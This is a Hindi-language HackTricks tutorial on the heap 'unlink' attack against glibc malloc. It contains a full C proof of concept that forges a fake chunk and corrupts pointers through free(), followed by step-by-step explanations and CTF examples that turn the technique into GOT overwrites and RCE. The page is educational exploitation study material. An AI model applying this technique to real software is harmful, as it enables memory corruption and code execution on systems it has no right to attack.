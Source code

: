 # अनलिंक हमला

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स** को [**पीआर जमा करके**](https://github.com/carlospolop/hacktricks) और [**हैकट्रिक्स क्लाउड**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}

## मूल जानकारी

जब यह हमला खोजा गया था, तो यह अधिकांश वक्त एक डब्ल्यूडब्ल्यूडब्ल्यू (WWW - Write What Where) को संभव बनाता था, हालांकि, कुछ **जांचें जोड़ी गई गई थीं** जिसने हमले के नए संस्करण को और अधिक रोचक और **अधिक जटिल और **अनार्थक** बना दिया।

### कोड उदाहरण:

<details>

<summary>कोड</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* हमला काम नहीं करता अगर tcaches का उपयोग किया जाता है (2.26 के बाद)

### लक्ष्य

यह हमला एक चंक के लिए एक पॉइंटर को अपने आप से 3 पते पहले पॉइंट करने की अनुमति देता है। यदि इस नए स्थान (पॉइंटर के स्थान के आस-पास) में दिलचस्प वस्तुएं हैं, जैसे अन्य नियंत्रण वाली आवंटन / स्टैक..., तो उन्हें पढ़ना / ओवरराइट करना संभव है जिससे अधिक नुकसान हो सकता है।

* यदि यह पॉइंटर स्टैक में स्थित था, क्योंकि अब यह अपने आप से 3 पते पहले पॉइंट कर रहा है और उपयोगकर्ता संभावित रूप से इसे पढ़ सकता है और संशोधित कर सकता है, तो संभावना है कि संवेदनशील जानकारी को स्टैक से लीक किया जा सकता है या यहाँ तक कि वापसी पता (शायद) को छूने के बिना कैनरी को छूने
* CTF उदाहरणों के लिए, यह पॉइंटर अन्य आवंटन के पॉइंटरों के एक एरे में स्थित है, इसलिए, इसे 3 पते पहले पॉइंट करना और पढ़ने और लिखने की क्षमता होने के कारण, अन्य पॉइंटरों को अन्य पतों पर पॉइंट करने की संभावना है।\
जैसे ही उपयोगकर्ता अन्य आवंटनों को पढ़/लिख सकता है, वह सूचना लीक कर सकता है या अन्य पतों में नए पते ओवरराइट कर सकता है (जैसे कि GOT में).

### आवश्यकताएं

* कुछ नियंत्रण में एक स्मृति (उदाहरण के लिए स्टैक) में एक कपल चंक बनाने के लिए कुछ गुणों को मान देना।
* पॉइंटर्स को नकल करने के लिए स्टैक लीक।

### हमला

* कुछ चंक हैं (chunk1 और chunk2)
* हमलावर chunk1 की सामग्री और chunk2 के हेडर को नियंत्रित करता है।
* chunk1 में हमलावर एक नकली चंक की संरचना बनाता है:
* सुनिश्चित करने के लिए कि सुरक्षा उपायों को उलटने से बचने के लिए कि क्षेत्र `size` सही है: `corrupted size vs. prev_size while consolidating`
* और नकली चंक के फील्ड `fd` और `bk` chunk1 पॉइंटर को जहां रखा गया है उसे पॉइंट कर रहे हैं जिसमें -3 और -2 के ऑफसेट हैं इसलिए `fake_chunk->fd->bk` और `fake_chunk->bk->fd` मेमोरी (स्टैक) की स्थिति को पॉइंट करते हैं जहां वास्तविक chunk1 पता स्थित है:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* chunk2 के हेडर संशोधित किए गए हैं ताकि संकेतित किया जा सके कि पिछला चंक उपयोग में नहीं है और आकार नकली चंक में शामिल है।
* जब दूसरा चंक मुक्त होता है तो यह नकली चंक अनलिंक हो जाता है:
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* पहले यह बनाया गया था कि `fake_chunk->fd->bk` और `fake_chunk->bk->fd` एक ही स्थान पर पॉइंट करें (जहां `chunk1` स्टोर किया गया था, इसलिए यह एक वैध लिंक्ड सूची थी)। क्योंकि **दोनों एक ही स्थान पर पॉइंट कर रहे हैं** केवल अंतिम वाला (`fake_chunk->bk->fd = fake_chunk->fd`) **प्रभाव** डालेगा।
* यह **स्टैक में चंक1 के पॉइंटर को ओवरराइट करेगा जिसे स्टैक में 3 पते पहले स्थित पते (या बाइट्स) पर स्टोर किया गया है**।
* इसलिए, यदि एक हमलावर फिर से chunk1 की सामग्री को नियंत्रित कर सकता है, तो वह **स्टैक के अंदर लिख सकता है** जिससे संभावित रूप से कैनरी को छूकर वापसी पता ओवरराइट करने और स्थानीय चरों के मान और पॉइंट को संशोधित करने की संभावना होगी। फिर से chunk1 के पते को स्टैक में एक विभिन्न स्थान पर ओवरराइट करने के लिए।
* ध्यान दें कि यह संभव था क्योंकि **पते स्टैक में स्टोर किए गए थे**। जो खतरा और शोषण किया जा सकता है, वह **पते जहां नकली चंक के पते स्थित हैं, इस पर निर्भर कर सकता है**।

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## संदर्भ

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* यद्यपि एक CTF में एक unlink हमला पाना अजीब होगा, यहां आपको कुछ व्राइटअप्स मिलेंगे जहां इस हमले का उपयोग किया गया था:
* CTF उदाहरण: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* इस उदाहरण में, स्टैक के बजाय malloc'ed पतों का एक एरे है। अनलिंक हमला किया जाता है ताकि यहां एक चंक आवंटित किया जिससे malloc'ed पतों के एरे के पॉइंटर्स को नियंत्रित किया जा सके। फिर, एक और कार्यक्षमता है जो चंक की सामग्री को संशोधित करने की अनुमति देती है, जिससे पते GOT को पॉइंट करने की अनुमति देती है, फ़ंक्शन पतों को लीक करने और RCE प्राप्त करने के लिए।
* एक और CTF उदाहरण: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* पिछले उदाहरण की तरह, आवंटनों के पतों का एक एरा है। यह संभव है कि पहले आवंटन के पते एक चंक के कुछ स्थानों पर पॉइंट करने के लिए अनलिंक हमला किया जाए और फिर इस आवंटन को नए स्थान पर ओवरराइट किया जाए। इसलिए, अन्य आवंटनों के पॉइंटर्स को GOT को पॉइंट करने के लिए ओवरराइट किया जा सकता है, लीक प्राप्त करने के लिए और फिर atoi के GOT को ओवरराइट करने के लिए एक वन गैजेट के पते को ओवरराइट करने के लिए।
* एक CTF उदाहरण जिसमें कस्टम malloc और मुक्त कार्यों का उपयोग करते हैं जो अनलिंक हमले के बहुत ही समान एक दुर्बलता का शिकार है: [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* एक ओवरफ्लो है जो कस्टम malloc के FD और BK पॉइंटर्स को नियंत्रित करने की अनुमति देता है जो (कस्टम) मुक्त किया जाएगा। इसके अलावा, हीप में exec बिट है, इसलिए एक हीप पता लीक करना संभव है और गोट से एक हीप चंक को एक शैलकोड सहित एक फ़ंक्शन पॉइंट करने की अनुमति देता है।
